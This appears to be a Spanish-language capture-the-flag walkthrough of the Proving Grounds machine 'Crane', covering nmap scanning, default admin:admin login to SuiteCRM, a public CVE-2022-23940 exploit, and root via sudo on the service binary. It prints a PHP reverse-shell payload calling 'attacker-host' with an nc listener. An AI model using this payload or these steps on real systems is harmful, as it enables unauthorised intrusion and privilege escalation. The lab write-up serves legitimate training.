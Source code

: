 ```yaml
---
weigth: 1
title: "Crane"
date: 2024-05-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2024-05-01
tags: ["Walkthrough", "PG", "TjNull", "OSCP", "Easy", "Intermediate"]
categories: ["Proving Grounds"]
images: []
resources: 
- name: "featured-image"
  src: "preimagen.jpeg"

lightgallery: true

toc:
  auto: false
---
```

## Descripción

Dificultad: intermedia (valorada como easy)

En esta maquina de Proving Grounds Practice, veremos la explotación del software SuiteCRM a través de un exploit publico y una escalada de privilegios aprovechándonos de permisos sobre un binario que es posible ejecutar con sudo.

## Escaneo y Análisis de Vulnerabilidades

Iniciamos realizando un escaneo con nmap sobre la maquina crane

```bash
nmap -p- --open -T4 -Pn -n -vvv -sS 192.168.250.146  -oG allPorts
```
![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled.png)
Exportamos los resultados en formato grepeable para poder copiar y pegar los puertos obtenidos en un nuevo escaneo a través de la función extracPorts.

Esta función es un extra que podéis añadir a vuestra zshrc para agilizar vuestros escaneos.

Una vez en vuestra zshrc debeis cerrar la terminal y abrir una nueva para que se completen los cambios.

```bash
# Funcion extracPorts
# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp; rm extractPorts.tmp
}

```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%201.png)

Nos interesa el puerto 80 del cual obtendremos mas información en el siguiente escaneo.

```bash
nmap -p22,80,3306,33060 -sCV 192.168.250.146 -oN target
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%202.png)

Vemos que en el puerto 80 hay un servidor apache, por lo que pasamos a ver su contenido.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%203.png)

Nos encontramos ante un login, lo primero que se me ocurre es probar credenciales por defecto como admin:admin y… 

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%204.png)

Exito!

## Explotación

Tras obtener unas credenciales validas he pasado a buscar si existe algún exploit publico para la versión de este software y encontré el siguiente.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%205.png)

Exploit:

[https://github.com/manuelz120/CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)

Ejecutando la siguiente linea de comandos obtenemos la reverse shell

```bash
# Nos ponemos a la escucha
nc -nlvp 80

# Ejecutamos exploit
./exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"attacker-host\", 80); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

y voila!

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%206.png)

Tras realizar un tratamiento de la tty

```bash
# tratamiento de la tty
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236

```

La primera flag se encuentra en /var/www

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%207.png)

## Escalda de privilegios

si comprobamos los permisos sudo del usuario vemos que podemos ejecutar el binario service con sudo.

```bash
sudo -l
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%208.png)

En la siguiente web encontramos como podemos explotar este binario con sudo

[https://gtfobins.github.io/gtfobins/service/#sudo](https://gtfobins.github.io/gtfobins/service/#sudo)

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%209.png)

Ejecutamos y…

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2010.png)

La flag se encuentra en /root

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2011.png)

Maquina Crane Pwned!
